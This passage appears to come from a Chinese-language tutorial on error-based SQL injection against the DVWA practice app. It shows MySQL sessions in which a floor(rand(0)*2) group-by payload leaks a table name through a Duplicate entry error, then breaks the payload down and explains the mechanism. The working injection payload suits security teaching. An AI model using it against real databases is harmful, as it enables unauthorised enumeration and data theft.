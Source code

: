 ```sql
| ~guestbook~                                                                                                               |
+---------------------------------------------------------------------------------------------------------------------------+
mysql> select count(*),concat((select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x;

+----------+--------------+
| count(*) | x            |
+----------+--------------+
|        1 | ~guestbook~0 |
+----------+--------------+

mysql> select count(*),concat((select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x;

ERROR 1062 (23000): Duplicate entry '~guestbook~1' for key '<group_key>'

mysql> select 1 from (select count(*),concat((select(select(select distinct concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='dvwa' limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2)) x from information_schema.tables group by x) a;

ERROR 1062 (23000): Duplicate entry '~guestbook~1' for key '<group_key>'
```


payload拆解：
```sql
(
    select 1 from 
    (
    select count(*), concat(
        (
            select (
                select (
                SELECT distinct concat(0x7e, table_name, 0x7e)
                FROM information_schema.tables 
                WHERE table_schema=database() 
                LIMIT 0,1
            )
            ) from information_schema.tables limit 0,1
        ), floor(rand(0)*2)
    )
     x 
    from information_schema.tables 
    group by x
    )
     a
)

```
## 0x10 为什么会触发Duplicate entry错误？
这是因为 SQL 注入的 Payload 中使用了 group by 和随机数 rand() 的组合，这些操作在 SQL 执行过程中可能导致分组时的唯一性冲突。具体原因如下：  
首先，使用了 concat() 和 rand()。将随机数和表名拼接在一起。这种组合在分组时会制造出重复的值，导致 MySQL 试图将相同的拼接结果多次插入或处理。当 rand(0) 返回相同的随机数时，多次执行的查询可能会产生重复的数据（如 ~guestbook~1），从而导致唯一性冲突。  
其次是 group by 引发的错误。在注入攻击中，group by 操作经常与随机数结合使用，以触发 MySQL 内部的错误处理机制。当 MySQL 试图对带有相同值的行进行分组时，如果某些列有唯一性约束（如主键或唯一索引），则会发生冲突。在这种情况下，~guestbook~1 的条目可能已经存在，当再次生成相同的随机数并试图处理相同的表名时，就会触发唯一性约束冲突，导致 Duplicate entry 错误。
